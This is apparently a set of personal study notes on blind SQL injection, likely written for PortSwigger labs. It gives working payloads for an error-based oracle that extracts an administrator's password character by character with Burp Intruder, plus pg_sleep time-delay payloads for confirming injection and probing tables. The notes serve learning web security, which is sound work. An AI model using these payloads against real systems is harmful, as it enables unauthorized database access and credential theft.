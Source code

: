 - BurpSuite
	- Proxy the request
	- Send the request to intruder and add the § between the number after Column_Name_PASSWORD and between the letter we are tying to guest (a)
	```
	' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE_NAME where COLUMN='administrator' and substr(COLUMN_NAME_PASSWORD,§2§,1)='§a§') || '
	```
	- Set the attack to Cluster Bomb and load the payloads


## Time Base Technique

Steps
- Prove parameter is vulnerable
- Find Column Name ??? (REVIEW)
- Find Tables
- Length of Variable (>,<,<=,>=)
- Enumeration of variable (abc...)

Example Cookie Request
![[Pasted image 20221206184026.png]]

Prove Vulnerable parameter
```
'                                         ---> Not Working with time base injection

' || (SELECT pg_sleep(10))--              ---> Return 10 seconds delait
```

||                           ---> Simply mean to the query that a new query will be made in the same query

- Try multiples type of DB query on the injection to see if it's vulnerable [CHEAT SHEET](Cheat Sheet ---> https://portswigger.net/web-security/sql-injection/cheat-sheet)
	- ex: pg_sleep
	- SLEEP
	- ...


**Find Column Name ???**
```

```


Find Tables
```
' || (select case when (1=0) then pg_sleep(10) else pg_sleep(-1) end)--

' || (select case when (COLUMN='administrator') then pg_sleep(10) else pg_sleep(-1) end from TABLE)--
```

CASE WHEN                             ---> Verify if the query is true are not (user exist or not)
(1=0) or (1=1)                            ---> Testing query for True and False query
ELSE                                          ---> If response is False (user don't exist, else respond '' -> 200)
TABLE                                        ---> Table we are interested in
COLUMN                                   ---> Column we are interested in
